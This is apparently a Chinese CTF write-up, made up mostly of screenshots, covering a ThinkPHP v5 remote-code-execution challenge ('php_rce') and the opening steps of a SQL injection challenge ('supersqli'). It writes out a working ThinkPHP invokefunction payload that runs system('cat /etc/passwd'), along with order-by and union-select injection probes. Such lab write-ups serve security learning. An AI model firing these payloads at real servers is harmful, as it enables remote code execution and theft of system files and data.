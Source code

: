 ![image-20220625164444504](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251644569.png?x-oss-process=hzy)

# php_rce

![image-20220625164539029](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251645107.png?x-oss-process=hzy)

THINKPHP v5框架漏洞

![image-20220625164829635](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251648695.png?x-oss-process=hzy)

在网上找个exp直接打

[Thinkphp5.0.20漏洞](https://blog.csdn.net/qq_39281549/article/details/120260824)

```
?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
// phpinfo
```

![image-20220625165001784](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251650875.png?x-oss-process=hzy)

存在漏洞，利用就完了

```
？s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/etc/passwd //查看敏感文件
```

![image-20220625165128191](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251651291.png?x-oss-process=hzy)

![image-20220625165215612](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251652663.png?x-oss-process=hzy)

# supersqli

![image-20220625165334545](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251653607.png?x-oss-process=hzy)

只有1，2有数据，加`‘`就报错

![image-20220625165556993](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251655053.png?x-oss-process=hzy)

典型sql注入

猜字段

```
1' order by 2#
```

![image-20220625165725594](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251657645.png?x-oss-process=hzy)

```
1'' union select 1,2#
```
